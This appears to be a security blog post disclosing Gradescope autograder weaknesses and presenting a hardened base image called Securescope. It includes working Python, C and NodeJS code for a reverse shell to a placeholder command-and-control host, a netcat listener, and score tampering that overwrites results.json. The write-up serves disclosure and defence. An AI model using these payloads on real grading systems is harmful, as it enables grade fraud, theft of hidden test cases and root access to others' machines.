






Ever since I started exploring security more deeply, I've been asked countless times by people if I could hack into grading systems to change my (or, more often, their) grades. With [Gradescope](https://gradescope.com) being the most ubiquitous platform for grading STEM classes at Stanford, my standard response was always that I couldn't, imagining that a well-established EdTech company would secure their platform well enough.

As it turns out, Gradescope's autograders have been vulnerable to various types of attack since 2016. Gradescope has known about the issues since at least 2020, yet has indicated it cannot distribute a general fix.

This post covers my exploration of Gradescope's autograder vulnerabilities, an analysis of the potential impact on courses, and how I created [Securescope](https://github.com/saligrama/securescope), my attempt at a more secure autograder configuration.

<!--more-->

# Intro: how Gradescope's autograder works

Gradescope uses short-lived Docker containers hosted on AWS to test and grade student code submissions. Every time a student submits code, Gradescope spins up a new Docker container used to score that submission.

To borrow [Hanbang Wang](https://www.seas.upenn.edu/~hanbangw)'s graphic, the autograder flow is as follows:



In particular, there are three entities that we care about:

* *Gradescope autograder base code*, which is distributed by Gradescope itself by being bundled with a base autograder Docker image. I'll refer to this as **base code** for the remainder of the writeup. The relevant files are:
    - `/autograder/harness.py`, the primary execution engine that controls environment configuration, runs the real autograder, and submits results to Gradescope's servers.
    - `/autograder/update_and_run_harness.sh`, which is the Docker container entrypoint that fetches the most up-to-date version of the harness from Gradescope's AWS project and then runs it.
* *Autograder client code*, which is distributed by open-source autograder projects such as [Otter](https://github.com/ucbds-infra/otter-grader). I'll refer to this as **client code**. The relevant files are:
    - `/autograder/run_autograder`, typically a shell script (but can be any executable) that does initial client environment configuration and then runs the client code tailored to the assignment. Execution is passed here from the harness.
    - The language/assignment-specific autograder's code can be located anywhere in `/autograder`, but is typically in `/autograder/source`.
    - `/autograder/results/results.json`, which is computed by client code for the harness to submit to Gradescope's servers.
* *Student submissions*, which I'll refer to as **student code**.
    - Typically, this is copied into `/autograder/source` by the client code.

It should be noted that this entire chain runs as root, and that there is no network firewall imposed on any process -- neither within the Docker container, nor at the host level.

Another thing to note is that many autograder clients score student code by importing student code as a module, rather than by running the student code as a separate process (potentially with different user privileges) and using interprocess communication (IPC) to check test results. This means that student code often has access to autograder client code's memory, and depending on the language, can easily access variables that would be otherwise out of scope (e.g. by using Python's `inspect.stack`).

For more information, refer to [Gradescope's autograder documentation](https://gradescope-autograders.readthedocs.io/en/latest/manual_docker/).

# Exploring autograder vulnerabilities

Within the above flow, Gradescope's default autograder setup does not implement any kind of security restrictions and trusts arbitrary student code entirely.

Since 2016, there have been a number of examples of how student code can abuse this trust:

* In 2016, MIT students [discovered](https://courses.csail.mit.edu/6.857/2016/files/20.pdf#subsection.5.3) that **Gradescope does not limit network connections or file system access for student code; Gradescope also runs all submissions as root**.
* In 2019, a UPenn student published a [proof-of-concept](https://www.seas.upenn.edu/~hanbangw/blog/hack-gs/) method for changing one's grade, modifying the `run_autograder` shell entrypoint to have arbitrary writes to `results.json` take final effect.
* In 2020, another [writeup](https://medium.com/@andylyu/how-a-frustrating-computer-science-assignment-lead-to-me-gaining-access-to-the-server-that-graded-502310cf03ae) was published that demonstrated how to gain unrestricted access to the Docker container hosting an autograder by running a reverse shell from submitted code. This also allowed exfiltrating hidden test cases.

Gradescope's response to the 2020 writeup acknowledged these issues, but suggested it would be difficult to remediate any of the insecurities while maintaining compatiblility with most custom autograder client code.

In my February 2023 testing of Gradescope's Ubuntu 22.04 base Docker image and an example [Python calculator](https://github.com/gradescope/autograder_samples/tree/master/python) autograder, I was able to replicate and exploit each of the above vulnerabilities.

For my testing, I created a test course called *RCE 101: Introduction to Remote Code Execution* deploying Gradescope's example Python calculator assignment and associated autograder client code.

## Reverse shell and hidden test case exfiltration

It's not particularly difficult to get a root reverse shell on a Gradescope autograder Docker container. Since there is no firewall or other network request blocking on the Docker container or its host, we can make arbitrary outbound network requests, including creating reverse shells.

Additionally, the student runs as root, so the reverse shell will also inherit root privileges.

Starting from the Python calculator [official solution](https://github.com/gradescope/autograder_samples/blob/master/python/src/solution/calculator.py), all we need to do is add this code to the `eval` function -- a function we can predict will be run by the client code test suite:

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("C2_HOST_IP", C2_PORT))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("/bin/sh")
```

We also need to run a control-and-command (C2) server available on `C2_HOST_IP:C2_PORT`, which can be easily done with a cheap Digital Ocean droplet. Simply run the command `nc -lk C2_PORT -vvv` using a port such as `4444`.



This also allows us to exfiltrate test cases that would otherwise be hidden (we know these are hidden test cases due to the presence of the `visibility` decorator controlling access before the assignment due date):



## Editing autograder results

Since the client code's output file `/autograder/results/results.json` is treated as a trusted source of truth, we can modify our own grades as long as our write to that file takes effect after the client code's final write. In particular, we want to write the JSON string `{"score": 999.0}` to the file.

Hanbang Wang's [2019 blog post](https://www.seas.upenn.edu/~hanbangw/blog/hack-gs/) contained a proof-of-concept that appends a line to `/autograder/run_autograder` to write the above JSON string into the results JSON file. The idea is that because shell scripts execute lines immediately after reading them (rather than reading the entire script into memory before execution), appending to the shell script controlling the client autograder allows us to make changes even after the client exits.

To do this for our Python calculator, we simply add the following lines to our `eval` function:

```python
jout = {'"score"': 999.0}
with open("/autograder/run_autograder", "a") as exout:
    exout.write(f"\necho {json.dumps(jout)} > /autograder/results/results.json")
```

When submitting, this gives me 999% on the assignment:



A simpler variation is to just directly write to `results.json` from student code, then attempt to close the client code's file descriptor for that file:

```python
jout = {"score": 999.0}
with open("/autograder/results/results.json", "w") as exout:
    exout.write(json.dumps(jout))

os.closerange(0, 10)
exit(0)
```

This works and gives me 999% too.

However, if neither of these paths were available, we could still perform the attack by attempting to write to `results.json` between when the autograder client code exits and when `harness.py` reads `results.json`. It's possible, but difficult, to do this by simply polling the `results.json` file for the client code's closing of that file. However, to avoid having to do such a timing attack, we can spawn a subprocess that uses `inotify` Linux kernel events to watch writes to the `results.json` file -- writing our own values to that file after an autograder write. To do this, here's some C code that sets up the watcher and the associated action:

```c
#include <stdio.h>
#include <sys/inotify.h>

#define BUFSZ 4 * sizeof(struct inotify_event) + 16

void main() {
    int fd = inotify_init();
    int wd = inotify_add_watch(
        fd,
        "/autograder/results/results.json",
        IN_CREATE | IN_MODIFY
    );

    char events[BUFSZ];

    int length = read(fd, events, BUFSZ);
    for (int i = 0; i < length;) {
        struct inotify_event *event = (struct inotify_event *) &events[i];
        if ((event->mask & IN_CREATE) || (event->mask & IN_MODIFY)) {
            const char *output = "{\"score\": 999.0}";
            FILE *fp = fopen("/autograder/results/results.json", "w");
            fprintf(fp, output);
        }
        i += sizeof(struct inotify_event) + event->len;
    }
}
```

We then simply stick this into Python, calling subprocesses to compile and run the C watcher:

```python
c_payload = """
    PASTE_ABOVE_C_HERE
"""

with open("/autograder/source/write_inotify.c", "w") as cout:
    cout.write(c_payload)

subprocess.call(
    [
        "gcc",
        "/autograder/source/write_inotify.c",
        "-o",
        "/autograder/source/write_inotify",
    ],
    stderr=subprocess.DEVNULL,
)

subprocess.Popen(["/autograder/source/write_inotify"], start_new_session=True)
```

This, again, gives me a 999%.

# Impact

The impact of these vulnerabilities are severe. With the ability to run arbitrary code as root, it's easy for students to change their own grades. Perhaps more problematically, students can leak hidden test cases intended to be reused across years. Depending on the application, it might be difficult or time-consuming for instructors to rewrite tests in response to the leaks.

The mitigating factor is that Gradescope separately logs all code submissions independently of the autograder flow. Thus, instructors can easily discover malicious student code, and since source code is submitted rather than code binaries, students cannot truly hide such malicious code snippets. Indeed, this was part of Gradescope's response when they were [informed](https://medium.com/@andylyu/how-a-frustrating-computer-science-assignment-lead-to-me-gaining-access-to-the-server-that-graded-502310cf03ae) about these vulnerabilities in 2020:

> Also, you likely are aware, but if a student were to do this, they would not be able to hide it, because they can’t edit their submission after the fact, meaning you could discover this and pursue severe disciplinary action against them if needed.

That being said, there are many situations where manually reading student code might not be feasible -- for example, large courses. At Stanford, the *CS 224N: Natural Language Processing with Deep Learning* course has 647 enrolled students at the time of writing. With 26 teaching assistants, each TA would have to grade roughly 25 students' submissions per assignment, which is doable if only the final submission needs to be read.

However, in the hidden test case exfiltration scenario, a student could simply make a submission that exfiltrates the test cases, then make a number of legitimate submissions to bury the malicious one in the list of their submissions. Since students are generally encouraged to repeatedly submit intermediate drafts of their code (so that partial credit can be assessed even if they don't finish the assignment on time), a high number of submissions may not look suspicious.

If TAs had to read through each student submission, then it's conceivable that an individual TA might have to read through *hundreds* of submissions for a class as large as CS 224N, which is unsustainable. But if TAs only look at each student's final submission, they would not be able to catch the malicious code.

This creates a need for an autograder that is at least resistant to the most obvious cases of malicious student code. While Gradescope indicated in 2020 that they were looking into a solution that would cut off network access to student code, clearly that fix has not been implemented yet.

This motivated my decision to create my own hardened autograder base.

# Securescope: a more secure autograder

Gradescope claims difficulty in creating more secure autograder base images that integrate well with existing clients. I don't think this is an adequate excuse to not offer *any* security features for clients to take advantage of.

My solution, [Securescope](https://github.com/saligrama/securescope), is a base image that provides security features that autograder clients can use to defend against these common attacks. For more technical details, refer to the Securescope [documentation](https://github.com/saligrama/securescope/blob/main/README.md), but in summary, Securescope can:

* Run student code as a deprivileged `student` user
    - This prevents student code from writing to `run_autograder` in order to change `results.json` before submission
* Block network requests by using `seccomp` to prevent student code making `socket` system calls that connect to IP addresses
    - This prevents reverse shells and hidden test case exfiltration
    - Securescope needs to use `seccomp` here because the Docker container doesn't run with sufficient capabilities to use a standard `iptables`-based firewall
    - This would be more robust if Gradescope implemented a host-level firewall with `iptables`, but obviously this has not been done
    - Note that there could be some other side-channel attack that leaks some information about the test cases, but what can be leaked given how Gradescope's frontend appears to the user is reasonably low
* Verify result integrity by having client code include a provided nonce in the `results.json` file that is only added after student code is run
    - This prevents student code from crashing client code to have its write to `run_autograder` take effect
* Use `seccomp` to prevent student code from using `inotify` kernel watchers to write to `results.json` after client code exits

These features are switched off by default such that client autograders can simply inherit their Docker base from Securescope without any change in functionality from using Gradescope's base Docker image. The security features can be toggled on using environment variables and minimal additions to client code.

When client code uses each of these features effectively, this addresses all of my above demonstrated attacks. **There are certainly remaining exploitable attack surfaces past these mitigations. True security is only possible when client code and student code are run by different processes with different user privileges.**

## Testing

Beyond testing Securescope with the example Python calculator assignment, I also subjected Securescope to a more real-world test. Having taken the *CS 255 Introduction to Cryptography* course at Stanford last year, I was able to get access to that course's autograder client code (with TA permission) for a project implementing a simple password manager in NodeJS. I then replaced the autograder base image with Securescope, turning on and integrating each of the security features into the autograder client code (which only took about 20 minutes). 

In addition to testing the official solution and my own submission from last year, I also collected submissions from a few friends who took the course this and last year and uploaded those to the Securescope-integrated autograder. Each submission yielded the same results on Securescope as when originally scored with the default autograder.

To validate the efficacy of Securescope's security features on this assignment, I rewrote some earlier attacks in NodeJS, then uploaded them to test:

```js
// reverse shell
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(C2_PORT, C2_HOST, function() {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

The above attack was prevented by the `seccomp` IP socket syscall blocker:



```js
// result modification via closing file descriptors
const { writeFileSync, closeSync } = require('fs');
writeFileSync("/autograder/results/results.json", "{\"score\": 999.0}");
for (var i = 0; i < 10; i++) {
    try {
        closeSync(i);
    } catch (err) {
       continue;
    }
}
process.exit(0);
```

This attack was prevented by the nonce verification process:



Having tested Securescope's additional security features against attacks written in both Python and NodeJS, I now feel more confident making claims about Securescope's security properties.

# Conclusion

Gradescope's default autograder configuration provides no security features by default, allowing all sorts of attacks including test case exfiltration and grade modification. Gradescope has known this for several years, but has claimed that providing a general-purpose fix is too difficult.

Securescope aims to provide certain security features that are missing from the default autograder configuration. As true security requires restructuring autograder client code to only run student code across a process boundary, Securescope does not completely eliminate the possibility of all attacks. However, using Securescope raises the effort required for students to exploit the autograder to change their grades or to exfiltrate hidden test cases.

The hope is that Securescope can give existing client code some security benefits with minimal modification. Client autograders can use Securescope as an intermediate solution while working to separate student code execution across a process boundary.

**Acknowledgements**: Thanks to George Hosono for the idea to test Gradescope's security, insights on Gradescope and Docker, and for letting me test the CS255 autograder. Thanks to [Glen Husman](https://github.com/glen3b), [Nathan Bhak](https://github.com/nbhak), and [Kelechi Uhegbu](https://github.com/kelechiu10) for letting me test their CS255 project submissions. Thanks to Glen Husman and [Miles McCain](https://miles.land) for edits and suggestions.
